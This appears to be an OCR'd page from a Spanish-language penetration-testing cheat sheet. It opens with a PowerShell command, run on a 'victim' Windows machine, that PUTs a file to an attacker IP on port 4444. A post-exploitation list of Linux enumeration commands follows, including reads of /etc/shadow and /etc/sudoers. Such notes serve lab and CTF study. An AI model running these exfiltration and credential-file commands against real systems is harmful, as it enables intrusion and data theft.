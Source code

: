 ```Python

Y ahora en la maquina windows victima ejecutamos el siguiente comando
```
Invoke-WebRequest -Uri "http://10.9.0.118:4444/firewall.vbs" -Method Put -InFile "C:\Program Files (x86)\Spoofer\firewall.vbs"
```

# Compilar codigo C# con Mono
```
mcs program.cs
```

# Post explotación
## **Enumeración Local Linux**
### **Información del sistema**
```bash
uname -a #Muestra información del sistema operativo y el kernel.
uname -m #Muestra la arquitectura del sistema
arch #Muestra la arquitectura del sistema
lsb_release -a #Muestra la version del sistema
uname -r #Muestra la versión del kernel
cat /etc/issue #Muestra la versión del sistema operativo.
cat /etc/*-release #Muestra información detallada del sistema operativo.
cat /etc/crontab #Enumera tareas programadas.
cat /etc/resolf.conf #Muestra información sobre DNS
ls -alh /home #Enumera usuarios y sus directorios home.
ps aux #Muestra procesos en ejecución.
netstat -antup #Muestra conexiones de red y procesos.
ifconfig -a #Muestra información de red.
ip a #Muestra información de las conexiones
df -h #Muestra espacio en disco.
mount #Muestra sistemas de archivos montados.
```

### **Usuarios y grupos**
```Bash
id #Muestra el ID de usuario y grupos.
sudo -l #Lista los privilegios sudo del usuario actual.
cat /etc/passwd #Enumera usuarios del sistema.
cat /etc/group #Enumera grupos del sistema.
cat /etc/sudoers #Enumera usuarios con privilegios sudo.
cat /etc/shadow  #Contiene contraseñas cifradas
```

### **Conexiones**
```Bash
ip a
ifconfig -a
ip link show #Mostrar lista interfaces
ip addr show eth0 #Mostrar estado interfaz
ethtool eth0 #Mostrar información interfaz
sudo ip link set eth0 up/down #Levantar interfaz
arp -a #Muestra la tabla ARP del sistema
route -n #Muestra la tabla de enrutamiento del sistem
ip route #Muestra la tabla de enrutamiento del sistema utilizando el comando IP
traceroute <IP> #Sigue la ruta de una dirección
```
